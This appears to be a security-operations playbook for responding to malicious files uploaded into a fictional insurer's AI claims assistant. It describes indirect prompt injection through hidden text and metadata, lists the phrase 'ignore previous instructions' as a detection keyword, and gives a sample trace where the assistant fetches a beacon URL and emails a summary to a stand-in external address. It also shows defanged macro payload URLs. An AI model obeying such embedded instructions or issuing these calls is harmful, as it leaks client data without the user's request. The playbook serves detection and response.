

# Malicious File Uploaded Into an AI System (Full Playbook)

Written for the case that doesn't resolve in five minutes: a PDF, DOCX, ZIP, CSV, image, script, or executable lands in an AI assistant's upload channel and needs a full evidentiary trail before anyone signs off on "contained."

What separates this from a normal malicious-file-upload response (covered elsewhere in this book for web application upload endpoints) is that the "victim" isn't a filesystem — it's a reasoning system with a context window, and often tool access: browsing, code execution, mailbox send, ticketing, cloud storage. The same file can produce nine different blast radii depending on what the AI actually did with it, not what it was capable of doing. This playbook is built around confirming that one fact before choosing containment.

Fictional environment throughout: **Solstice Underwriting Group**, a mid-size commercial insurer running **Aegis Assist**, an internal claims/underwriting assistant on a RAG pipeline with file upload, a web-fetch tool, a sandboxed code-interpreter, an email-send connector, a ServiceNow connector, and a SharePoint connector. Identity is Entra ID, synced from on-prem AD DS (domain `SOLSTICE`). SIEM is Microsoft Sentinel.

## Playbook ID
AI-025

## Playbook Name
Malicious File Uploaded Into an AI System (Full Playbook)

## Version
1.0

## Status
Active – Production

## Owner
Elena Marsh — AI Security & Detection Lead

## Technical Owner
Farhan Idris — Senior Detection Engineer, AI Platform Security

## Business Owner
Priya Ostrander — Head of AI Platform Product

## Approver
Renata Silva — SOC Manager

## Last Updated
2026-09-15

## Next Review Date
2027-03-15 (six-monthly, or immediately after any Path F–I containment event tied to this playbook)

## Detection Source
Composite: Aegis Assist's ingestion/trust-and-safety pipeline (file-type validation, hashing, AV hook), the sandbox detonation service, the conversation/tool-call audit trace, and a Sentinel correlation rule joining ingestion events to downstream tool-call events.

## Alert Name
**AI-UPLOAD-01: Malicious or Suspicious File Ingested via AI Application Upload Channel**

## Description
Fires when a file uploaded into Aegis Assist returns a malicious/suspicious/unscannable verdict, a file-type mismatch, a sandbox behavioral flag, or an embedded-instruction keyword match — optionally correlated against an anomalous tool-call sequence shortly after ingestion.

## Objective
Establish, inside one triage cycle, what Aegis Assist actually did with the file — parsed only, followed embedded instructions, reached out externally, invoked a tool, exposed data, executed code, wrote data, sent a message, or called an authenticated API — and contain at the highest-impact confirmed action, not the file's theoretical capability.

## Business Risk
**[STAKEHOLDER]** - A malicious file sitting unread in blob storage is a low-grade problem. A malicious file whose embedded text got fed into a model with tool access is a potential automation of the attack — the AI did the clicking. The risk shifts from "one adjuster might open a bad attachment" to "the assistant may have already exfiltrated claims data or sent mail externally before a human looked at the file." Whoever owns the platform and whoever owns data-loss risk both need the conversation-trace findings, not just the malware verdict, before anyone calls this contained.

## Severity
| Condition | Severity |
|---|---|
| File parsed/rendered only, no tool calls, sandbox and static analysis both clean or the file quarantined pre-execution | Low |
| Embedded instructions detected but the model refused/only echoed them, no tool call fired | Medium |
| Confirmed tool invocation, external resource access, or code execution driven by embedded content | High |
| Confirmed data exposure, outbound message, data modification, or authenticated API call using stored credentials | Critical |

## Priority
P3 by default at intake; auto-escalates to P1 the moment any Decision Points row E or F–I is confirmed, or the uploading session held admin-equivalent privilege.

## MITRE ATT&CK
No dedicated ATT&CK ID exists for prompt injection itself — MITRE tracks that separately. This playbook maps delivery and *confirmed downstream behavior* to the closest supplied techniques:

- **T1566.001** Phishing: Attachment — email-delivered, then re-uploaded
- **T1204** User Execution — upload/summarize request triggers agent action
- **T1027** Obfuscated Files or Information — hidden text, `Chr()`/Base64
- **T1218** System Binary Proxy Execution (.005/.010/.011) — macro staging
- **T1105** Ingress Tool Transfer — second-stage payload via macro or tool call
- **T1059.001 / .003** Command and Scripting Interpreter — sandbox execution
- **T1071.004 / T1567 / T1048** DNS / Exfil Over Web Service / Alt Protocol
- **T1572 / T1090** Protocol Tunneling / Proxy
- **T1550.002** Pass the Hash — alternate credentials used to upload
- **T1552.001** Credentials In Files — model steered into surfacing secrets
- **T1213** Data from Information Repositories (.002 SharePoint) — sensitive data surfaced via RAG retrieval
- **T1565.001** Stored Data Manipulation — connector-driven write to a document, ticket, or repo
- **T1530 / T1550.001** Data from Cloud Storage / Use Alternate Authentication Material: Application Access Token
- **T1078.002 / .004** Valid Accounts — unauthorized session use

## Applicable Systems
Aegis Assist (chat/RAG assistant with file upload), its ingestion pipeline and sandbox service, all connected tools (web-fetch, code-interpreter, email-send, ServiceNow, SharePoint), and any endpoint/Windows session authenticating to the upload channel. Does not cover standalone email-gateway scanning (see Email) or web-application upload endpoints outside an AI context (see Web Attacks).

## Data Sources
Identity/session telemetry, application ingestion and conversation/tool-call audit logs, AV/sandbox verdicts, network/proxy/DNS logs, cloud storage and SaaS connector audit logs, and Windows Security Event Log where the upload path touches AD/Kerberos authentication.

## Log Sources
| Log Source | What it provides |
|---|---|
| Aegis Assist ingestion audit log | Upload ID, hash, declared vs. detected MIME, scan verdict, storage path |
| Aegis Assist conversation/tool-call trace | Prompt, extracted text passed to model, tool calls/params/results, action confirmation |
| Sandbox detonation service | Process tree, dropped files, registry/scheduled-task activity, network calls, evasion signals |
| Entra ID sign-in log / on-prem DC Security log | Authentication evidence (4624, 4648, 4672, 4768, 4769) |
| Egress proxy / firewall / DNS resolver logs | Destination domain/IP for any outbound call the agent or a macro made |
| SharePoint/OneDrive and ServiceNow audit logs | Object access/writes by the Aegis Assist service identity |
| Mail gateway / Exchange Online message trace | Outbound mail sent via the email-send connector |

## Required Fields
| Field | Source |
|---|---|
| `user_id`, `tenant_id`, `session_id`, `upload_id` | AI app audit log |
| SHA256/SHA1/MD5, declared/detected MIME, extension, size | Ingestion pipeline |
| Scan verdict, engine, detection name, defs date | AV/EDR |
| Process tree, network calls, dropped files | Sandbox |
| Full prompt, extracted text, model output, tool call/params/result, action confirmation | Conversation trace |
| Source IP chain, device compliance state, token issuance/expiry | Session metadata |
| Logon Type/Auth Package (4624), Credentials Used/Target Server (4648), Special privileges (4672), Account Name/Client Address/Result Code (4768/4769) | Windows Security log |

## Prerequisites
Ingestion pipeline hashes files synchronously at receipt, before transcoding; sandbox integration returns a verdict within SLA; conversation/tool-call logging captures full parameters and results, not just tool names; egress/DNS logs onboarded to the SIEM; IdP correlation configured against 4624/4768/4769.

## Dependencies
Sandbox/detonation vendor; threat intel feed; IAM team for session/privilege validation; AI platform engineering for tool-permission changes and credential rotation; egress/firewall team for domain blocks; Web Attacks Malicious File Upload where the same file reaches a conventional web endpoint; Indirect Prompt Injection (AI-002), which this one hands off to when the injection technique, not the malware, is the primary finding.

## Trigger Condition
Any one of: an AV/EDR verdict of malicious, suspicious, or unscannable; a declared extension/MIME/magic-byte mismatch; a sandbox behavioral flag (process spawn chain, network call, dropped file, scheduled task/service creation, evasion signal); an embedded-instruction keyword match ("ignore previous instructions," fake system-role headers) in text actually passed into the model's context; or a tool call/outbound connection logged within 15 minutes of ingestion, with parameters traceable to file content rather than the user's own prompt.

## Detection Logic Summary
**[ENGINEERING]** The rule correlates two log families most AI platforms keep separate: the static ingestion pipeline and the conversation/tool-call trace. A file can pass every static check and still trigger a live injection if the model acted on hidden text; conversely a file can fail a static check and be inert if quarantined before the model saw it.

```kql
let InjectWindow = 15m;
AegisIngestionLog
| where ScanVerdict in ("Malicious","Suspicious","Unscannable") or MimeMismatch == true
| project UploadId, UserId, SessionId, FileHash, IngestTime = TimeGenerated
| join kind=inner (
    AegisToolCallLog
    | where ToolName in ("web_fetch","code_interpreter","send_email","servicenow_create","sharepoint_write")
    | project SessionId, ToolName, ToolTime = TimeGenerated, Destination, Parameters
  ) on SessionId
| where ToolTime between (IngestTime .. IngestTime + InjectWindow)
```

The join is scoped to session, not user — the same identity can hold several concurrent sessions, and attributing a tool call from an unrelated one would misdirect the investigation.

## Known Limitations
Password-protected archives and encrypted PDFs can't be scanned or detonated without the password. Sandboxes miss payloads gated behind evasion logic or delays longer than the detonation window. MIME-sniffing can be fooled by polyglot files. VBA stomping means a clean `olevba` read on an older parser doesn't guarantee a clean macro. Third-party plugins often don't log full call parameters, breaking the correlation query above. Trace retention sometimes rolls off before triage starts. None of this should default a case to Benign Positive — document the gap and route to manual analysis.

## Known False Positives
A previously-unseen file format triggering "no prior sightings" logic. Corporate egress proxy or VPN exit IP flagged as suspicious purely on reputation feeds. Style guides or templates containing instructional-sounding language meant for a *human* reader, superficially matching the keyword heuristic. An approved connector (e.g., a sanctioned auto-ticketing workflow) performing an action that looks unrequested but is in fact expected scope.

## Initial Triage
**[ANALYST]**
1. Pull the ingestion audit record: upload ID, hash, declared/detected MIME, scan verdict, storage path.
2. Confirm uploader identity against the IdP/AD trail — correlate against **4768**/**4769** or the Entra ID sign-in event.
3. Check the SHA256 against internal history and external reputation — prior clean sightings aren't proof of safety, but they remove "unknown file" as a variable.
4. Pull the conversation/tool-call trace and scan for any tool call within 15 minutes of ingestion — this decides whether the case stays a file-analysis exercise or becomes a live agent-action investigation.
5. Note whether the conversation has already continued past the upload turn — later turns may build on a compromised context window.

## Enrichment
Submit the hash to the sandbox if not already queued; pull multi-engine reputation and prevalence data. Pull device/session context: MDM/compliance state, EDR presence, concurrent-session count, and any overlapping-geography session (impossible travel). Resolve any destination domain/IP from the tool-call trace against threat intel; pull tenant criticality.

## Investigation
**[ANALYST]** Four evidence sets, assembled together — file evidence tells you what the payload is capable of, the conversation trace tells you what actually happened, and neither alone supports a defensible verdict.

### Uploader Identity and Session Evidence

Pull the identity record from Aegis Assist's audit log (`user_id`, `tenant_id`, `upload_id`, `session_id`), then cross-reference the identity provider: AD/Kerberos SSO against **4768**/**4769** around the upload time, or the Entra ID sign-in record. Confirm account type — a service account uploading into an AI tool is unusual enough to flag on its own.

**[ANALYST]** - a **4648** preceding the upload confirms only that explicit alternate credentials were used, not the account's own identity — it does not by itself prove *how* those credentials were obtained. Treat it as a lead for possible Pass the Hash (**T1550.002**) and corroborate against the authentication package and any credential-theft indicators before naming that specific technique; a legitimate RunAs or service-account logon produces the same event.

Normalize timestamps to UTC, capture the source IP via `X-Forwarded-For` against egress/VPN/TOR feeds, and collect device MDM/EDR state — isolation only works if EDR is actually on the box. Determine privilege from **4624** Logon Type and **4672** (admin-equivalent token); a **4769** showing anomalous RC4 ticket encryption is a separate credential-hygiene concern (weak-crypto exposure/possible Kerberoasting, **T1558.003**) and doesn't itself indicate the session's privilege level — don't conflate the two.

**[STAKEHOLDER]** - a file from a low-privilege session is contained; the same file from an admin-equivalent session changes blast radius and who's on the call.

### File Identity, Hash, Scan, Sandbox, and Reputation

Capture file name, extension, declared/detected MIME, and size together — mismatches are usually the first signal (`image/png` with `MZ`/`PK` magic bytes, double extensions, homoglyphs). Compute SHA256 on the raw bytes as received, before transcoding, and pivot on it against internal history and external reputation. Treat **unscannable** as its own category, not clean — password-protected ZIPs and obfuscated macros routinely return unscannable; escalate those regardless of the static label.

Sandbox detonation should return behavior, not a score: process tree (`WINWORD.EXE` spawning `powershell.exe` with an encoded command line), network calls, dropped/registry/scheduled-task artifacts, system-binary proxy execution (**T1218**), evasion signals.

**[MANAGEMENT]** - turnaround carries its own SLA, commonly 5–15 minutes; flag timeouts without a verdict as a known false-negative pathway.

### Embedded Content Analysis

Extract in an isolated analysis VM or the sandbox's inspection sidecar — never on the ingestion host, and never let Aegis Assist re-parse a file under active review (auto-summarize-on-upload can mean the model already "read" the payload first).

| File type | Tooling | Primary target |
|---|---|---|
| DOCX/XLSX/PPTX | `oletools` (`olevba`, `oleid`) | Macros, OLE objects, hidden text |
| PDF | `pdfid.py`, `peepdf`, `pdf-parser.py` | JavaScript, launch actions, OCG layers |
| ZIP/RAR/7z | `7z l -slt`, `binwalk` | Nested archives, path traversal, spoofed extensions |
| Images | `exiftool`, `binwalk`, `strings` | EXIF/XMP metadata, appended trailing data |
| Scripts | Manual read + sandboxed run, script-block logging | Obfuscation, download cradles |

Extract every URL from hyperlink relationship files, PDF `/URI` actions, and raw string carving — not just what renders. A DOCX can display "Company Portal" as anchor text while the target points to `hxxp://185.220.101[.]44/update.php`; that mismatch is the highest-value signal here.

**[ENGINEERING]** `olevba` against a macro-enabled document:
```text
$ olevba invoice_q3.docm --deobf
AutoExec:  Document_Open (auto-executes)
Suspicious: Shell, CreateObject, WScript.Shell, Environ, Chr
IOC: hxxp://cdn-updates[.]net/payload.bin
```
`CreateObject("WScript.Shell")` spawning `mshta`/`regsvr32` is classic staging (**T1218**, fed by **T1204**/**T1105**); heavy obfuscation is **T1027**. For archives, compare listed vs. compressed size before extracting (zip-bomb indicator).

**[ANALYST]** - The piece unique to an AI pipeline: content invisible to a human but fully readable to the model's parser — white/0-pt font text, PDF optional content groups, image alt-text/tagged-structure text, document `Comments`/`Keywords` metadata. "Ignore previous instructions" hiding in any of these is indirect prompt injection riding on embedded content — escalate on that basis even if the file is otherwise inert from a malware standpoint.

### AI Conversation and Tool-Call Trace Analysis

Pull the conversation/tool-call trace whole: full prompt, the extracted text actually passed to the model (RAG chunking means an injection can sit in a chunk never retrieved), the model's full output, tool call name/parameters/result, and downstream action confirmation — proof of execution, not just intent. Look for injection phrasing surviving into the extracted text: "ignore previous instructions," fake system-role headers, instructions to fetch a URL or summarize-and-email externally.

**[ENGINEERING]** Reconstruct the call chain in order. The recurring shape of this case:
```text
turn_1: Alicia Chen uploads Q3_Claims_Summary.pdf
turn_2: model calls "extract_text" -> 4,200 chars incl. hidden white-text block
turn_3: model calls "web_fetch" -> GET https://drop.example-cdn.net/beacon.php?id=alice.chen
turn_4: model calls "send_email" -> to: external-relay@example.net, body: [conversation summary]
```
That's **T1204** chaining into **T1567** (turn 3, the beacon callback doubling as a low-volume identifier exfil) and **T1567** again (turn 4, a single outbound send carrying the conversation summary to an external address, no approval gate) — reserve **T1114.003** for a standing mailbox forwarding rule; a one-off agent-driven send isn't that technique even though the effect (mail leaving the org) looks similar. If the code sandbox has network egress, correlate container/host telemetry (**4688** parent = sandbox runtime, **4104** script-block logging) against the tool-call timestamp — decoded/executed payloads map to **T1027** and **T1059.001**/**.003**; a pulled secondary payload is **T1105**. For connector calls touching internal data, log which objects were opened — **T1530**/**T1552.001** territory if the model repeated back credential-bearing content.

## Validation
Re-run the hash and reputation lookups against a second source before committing to a verdict — a "no prior sightings" result an hour ago can flip. Corroborate any tool-call-reported outbound connection against an independent log (egress proxy or DNS resolver) — a buggy connector can under-report its own trace. Confirm the uploader's identity out-of-band where the pattern suggests compromise rather than intentional testing. If a logging gap prevents corroboration, document it rather than defaulting to a clean verdict.

## Decision Points
**[ANALYST]** The governing question is the last *confirmed* action taken, not what the file was theoretically capable of. Contain at the highest-numbered row confirmed — lower-numbered containment is redundant once a higher-impact action is proven, though the full chain should still be documented, since injection (row 2) is often the trigger for rows 3–9.

| # | Confirmed outcome | Evidence | Primary risk | ATT&CK | Path |
|---|---|---|---|---|---|
| 1 | Parsed/rendered only | Parser invocation only, no tool-call/outbound events | Low — context window only | T1566.001 | A |
| 2 | Followed embedded instructions | Reasoning trace references instructions absent from the user's prompt | Medium-High — agent integrity | T1204 | B |
| 3 | Accessed external resource | Outbound HTTP/DNS log correlated to file-processing time | Medium — beaconing, SSRF | T1071.004, T1105 | C |
| 4 | Invoked a connected tool/plugin | Tool-call log, params sourced from file content | Medium-High — tool's blast radius | T1204 (see rows 5-9 for the outcome-specific ID once the effect is known) | D |
| 5 | Revealed sensitive data | Output diff vs. DLP pattern; RAG retrieval log | High — direct disclosure | T1213 (T1213.002 if SharePoint-sourced); T1552.001 if credential content specifically | E |
| 6 | Executed code | Sandbox log, stdout/stderr capture | High | T1059.001, T1027 | F |
| 7 | Modified data (document, DB, ticket, repo) | Write-audit log, before/after diff | High — persistence/integrity | T1565.001 (Stored Data Manipulation) | G |
| 8 | Sent a message on the org's behalf | Outbound message log, recipients, content hash | Critical — reputational | T1567 | H |
| 9 | Authenticated API call, stored credentials | API gateway log, token used, endpoint called | Critical — credential/scope compromise | T1530, T1550.001 (Application Access Token) | I |



*Figure F043 - the branching containment paths for a malicious AI file upload.*

## True Positive Indicators
Extension/MIME/magic-byte mismatch alongside a malicious sandbox verdict; embedded directive language in text actually passed to the model, with a corresponding tool call inside the correlation window; outbound connection or message to a destination with no legitimate relationship to Solstice; a process/code chain mapping to known staging behavior (macro → shell → download); confirmed data write, message send, or API call the user never requested.

## False Positive Indicators
Extension/MIME mismatch resolves to a benign format quirk once magic bytes are checked properly. Keyword heuristic matched ordinary instructional prose with no anomalous action following. Tool call fired but was fully within the scope of what the user asked for, via an approved integration. Source IP resolves to the corporate proxy/VPN range once `X-Forwarded-For` is unwound.

## Benign Positive Conditions
An employee intentionally tests detection with a known-benign EICAR-style file, and behavior matches expected safe handling. A previously-unseen file format with no malicious content and no tool-call anomaly, closed after sandbox confirms clean. An approved, pre-registered pentest/red-team engagement. A connector action that looks unrequested at first read but is confirmed as standard scope once checked with platform engineering.

## Escalation Criteria
Escalate immediately to IR Lead / AI platform owner when: any row E or F–I is confirmed; the uploading session held admin-equivalent privilege (**4672**, tenant-admin claim); the same payload appears across multiple sessions (campaign, not isolated); data is confirmed to leave the tenant boundary; or logging can't corroborate a claimed tool-call result — the gap is itself an escalation trigger, not grounds for closure. Add the CISO to that escalation, not just IR Lead, the moment rows E/H/I are confirmed or a campaign is confirmed — external-notification exposure and any org-wide feature suspension are the CISO's call, not the SOC's.

## Containment Options
| Path | Action |
|---|---|
| A — Parse only | No agent/session action. Quarantine the file, submit to sandbox out-of-band, close per result. |
| B — Followed instructions | Freeze the session, snapshot the context window before auto-purge overwrites it; treat every later row as suspect until logs prove otherwise. |
| C — External resource | Block the destination at the egress proxy; pull DNS/HTTP logs for a beaconing pattern; escalate to F if a second-stage payload came back. |
| D — Invoked a tool | Suspend the tool's credentials/API key immediately, not just the chat session — the token can stay live after the session closes. |
| E — Revealed data | Identify every party who saw the output (user vs. shared workspace vs. a logged observability tool); notify per data-classification policy. |
| F — Executed code | Isolate the sandbox/container, preserving the image and filesystem diff rather than killing the process; rotate reachable credentials; check egress logs beyond the isolation boundary. |
| G — Modified data | Freeze the downstream system from further automated writes; diff against last-known-good; route any rollback through change control — a rollback mid-investigation can destroy evidence. |
| H — Sent a message | Recall/delete where supported, otherwise notify recipients directly; revoke the integration's token; treat recipients as secondary phishing targets. |
| I — Authenticated API call | Revoke/rotate the credential at the IdP immediately; pull the full gateway history for that token (assume reuse); coordinate with the third-party owner if external. |

**[STAKEHOLDER]** - Containment at rows B–D has a real, if smaller, cost: the adjuster or underwriter on that session loses the assistant, or loses upload/tool access, for however long the freeze lasts, and their queue needs covering in the meantime — that's a business-continuity line item for the platform owner to track, not a fact the SOC can absorb silently. NO-GO on an immediate freeze (leaving a session live a little longer to preserve evidence) trades a slower shutdown against the risk that a still-compromised context window takes another action first; that trade-off is the platform owner's call within the SLA window above, not a default toward whichever is operationally convenient. If Escalation Criteria's campaign trigger fires — the same payload across multiple sessions — the decision scales up accordingly: pulling the file-upload feature, or Aegis Assist entirely, for every user is a CISO/platform-owner GO, not a per-session SOC one, because it stops claims and underwriting work org-wide until the platform issue is fixed, not just the one session.

**[STAKEHOLDER]** - a sandbox escape or unrestricted egress from a code-execution feature (Path F) is what turns a chatbot incident into a full breach; sandbox network isolation is a design prerequisite, not a nice-to-have.

## Containment Approval
**[MANAGEMENT]** Path A and standalone egress/domain blocks (C): Tier 1/Tier 2 analyst, standing authority. Path B/D: Tier 2 may act unilaterally once escalation criteria are met, AI platform owner notified within 15 minutes. Path E/F/G/H/I: require sign-off per the standard high-impact matrix — platform owner plus IR Lead at minimum, Legal/Privacy and the CISO added for E/H/I where regulated data or external recipients are involved.

## Recovery Steps
Confirm the file is fully removed from anywhere the model or a connector could re-ingest it. B/C/D: restart the session under normal monitoring once content is purged and credentials rotated, not just re-enabled. F: rebuild the sandbox image from a known-good baseline. G: restore from backup only after the diff is fully captured, under change control. H: confirm recall succeeded or every recipient was notified. I: confirm the rotated credential works everywhere and the old one now fails everywhere. Confirm with the business owner that any manual-fallback coverage arranged for the frozen session/feature can stand down — closing the technical case doesn't automatically close the continuity gap it opened. Apply heightened monitoring for 72 hours.

## Evidence Collection
Ingestion audit record (upload ID, hash, MIME data, scan verdict); sandbox report; full conversation/tool-call trace; embedded-content artifacts (URLs, macro dump, archive listing, metadata diff); uploader session evidence (4624/4648/4672/4768/4769, source IP chain, device state); destination resolution/threat-intel lookups; write/message/API-call audit records for the system touched; approver identity/timestamp for any Path E–I action.

## Case Documentation
Full timeline from upload through the last confirmed AI action, containment, and recovery; uploader/session identifiers; file identity/hash; Decision Points row(s) confirmed, not just the highest; MITRE techniques observed at each stage; containment/recovery actions with timestamps and approvers; closure classification; root-cause category.

## Communication Requirements
Notify the AI platform owner for any confirmed Path B–I outcome regardless of severity. Notify Legal/Privacy where evidence shows actual access to or disclosure of regulated/client data (E, H, I), not merely the possibility. Notify the CISO alongside Legal/Privacy for the same E/H/I confirmations, and for a confirmed multi-session campaign regardless of path — that's the threshold where this stops being an AI-platform operational issue and becomes a breach-notification and executive-visibility one. Notify recipients directly for Path H where recall isn't possible, and the third-party SaaS owner for Path I. Notify the uploader's manager only where containment affects their access or coaching is warranted. No blanket notification for routine Path A closures.

## SLA
**[MANAGEMENT]**
| Severity | Acknowledge | Initial Triage | Containment Decision | Full Resolution |
|---|---|---|---|---|
| Critical (Path F–I confirmed) | 10 minutes | 30 minutes | 45 minutes | 4 hours |
| High (Path B–E confirmed) | 15 minutes | 45 minutes | 90 minutes | 8 business hours |
| Low/Medium (Path A, or unconfirmed) | 30 minutes | 2 hours | N/A | 24 business hours |

## Closure Criteria
Close as **True Positive — Contained** once the highest-confirmed-row path has executed, credentials/tokens are rotated where applicable, downstream artifacts are removed or reverted, and the case record captures every Evidence Collection field. Close as **Benign Positive** when the activity is confirmed real but authorized/expected. Close as **Insufficient Evidence** when a documented logging gap (retention rollover, third-party plugin, unreachable password holder) prevents confirming the AI's actual downstream action — flag the gap to Detection Feedback rather than forcing a verdict the evidence can't carry.

## Post Incident Tasks
For any True Positive at Path D or higher: review the tool/connector's permission scope with platform engineering. For H/I: confirm credential rotation is complete everywhere it's used. User coaching where the case stemmed from re-uploading an unchecked email attachment. Open a tuning ticket for any injection pattern the heuristic set missed. Lessons-learned review within 5 business days where containment missed SLA.

## Detection Feedback
Loop findings back to Detection Engineering: did the 15-minute correlation window catch the real case or was the tool call outside it; did the sandbox return a verdict inside SLA; was the injection keyword list broad enough for the actual phrasing used; is the third-party plugin logging gap material enough to justify blocking that plugin pending a fix. Log every Benign Positive root cause even when no rule change follows immediately.

## Tuning Opportunities
Automate a diff between *rendered* and *full-extracted* text (hidden runs, alt-text, OCG layers) and alert above a tuned threshold rather than relying on manual review. Add DLP-pattern matching against model output, not just the source file. Layer automatic credential suspension into the correlation rule for Path D/F confirmations. Pre-register pentest/red-team windows against the upload channel so Benign Positive closures don't need manual calendar checks.

## Metrics
**[MANAGEMENT]**
| Metric | Target | Notes |
|---|---|---|
| Mean Time to Triage | < 30 min | Alert to Decision Points row identified |
| Sandbox Turnaround (95th pct) | < 15 min | Automated detonation only |
| Path F–I Rate (share of TPs) | tracked | Leading indicator of tool-permission scope creep |
| Insufficient Evidence Rate | < 15% | High values indicate a logging gap, not an analyst gap |
| Benign Positive / Escalation-to-IR Rate | tracked | |

## Automation Potential
High for enrichment — hash/reputation lookup, sandbox submission, threat-intel resolution, and IdP correlation are already automatable ahead of analyst review. Medium for the ingestion-to-tool-call correlation query, which can pre-populate the Decision Points row before a human opens the case. Low for the verdict and any Path E–I action — a false auto-revocation of a legitimate credential creates its own incident, so rotation and recall stay analyst-confirmed-execute.

## Related Rules
AI-001 (Prompt Injection), AI-002 (Indirect Prompt Injection) / AI-003 (LLM Data Leakage), AI Agent Tool Abuse, MCP Server Abuse, Unusual Token Consumption (AI-016), and the Web Attacks Malicious File Upload rule where the same path is reachable via a conventional web endpoint.

## Related Playbooks
Indirect Prompt Injection; Agent/Tool Abuse; AI API Key Compromise; Data Exfiltration Attempted Through Prompts; Model-Connected Tool Misuse; Malicious File Upload (Web Attacks, non-AI variant); the org's Credential Compromise and Ransomware/Data-Encryption playbooks if sandbox escape or host impact is confirmed.

## References
Microsoft Learn — Windows Security Event Reference; MITRE ATT&CK and MITRE's separate AI-specific threat framework for prompt-injection behavior; NIST AI Risk Management Framework; SANS Institute guidance on malicious document analysis and macro forensics; CISA guidance on phishing/attachment defenses; cloud/SaaS vendor documentation for connector auditing and token revocation.

## Revision History
| Version | Date | Author | Summary of Changes |
|---|---|---|---|
| 1.0 | 2026-09-15 | Elena Marsh, Farhan Idris | Initial version, consolidating uploader/session, file/hash/sandbox, embedded-content, and conversation/tool-call evidence with the nine-path decision matrix |

**Example case note:** *"Alicia Chen (standard privilege, 4769 confirmed against DC02, 09:41 UTC) uploaded Q3_Claims_Summary.pdf at 09:42 UTC from a compliant laptop on Solstice's own egress range. The correlation rule fired on the tool-call sequence itself, ahead of any sandbox result — static scan came back clean, and the sandbox's hidden-white-text flag didn't land until 09:57 UTC, close to the edge of its own turnaround SLA. Trace: extract_text (09:42:10) → web_fetch to drop.example-cdn.net/beacon.php?id=alice.chen (09:42:41) → send_email to external-relay@example.net (09:43:02) — logged with recipient and subject but a truncated body, a known gap in this connector's parameter logging (see Known Limitations). The tool-call record alone wasn't enough to confirm what actually left the tenant; that took pulling Exchange Online message trace and matching it against the truncated entry, landing about 15 minutes after the alert — still inside the Containment Decision SLA, but not the instant read a bare trace would suggest. None of it was requested by the user's actual prompt. Row 8 confirmed. Session frozen, connector token revoked, domain blocked, recall attempted (unsupported — recipients notified instead). Platform owner, Legal, and CISO notified per Path H and the confirmed disclosure of client claims data. Alicia's queue was reassigned for the two hours her session stayed frozen — a small continuity cost, tracked separately from the technical closure. Escalated Critical. Closed True Positive — Contained, pending 72-hour monitoring."*
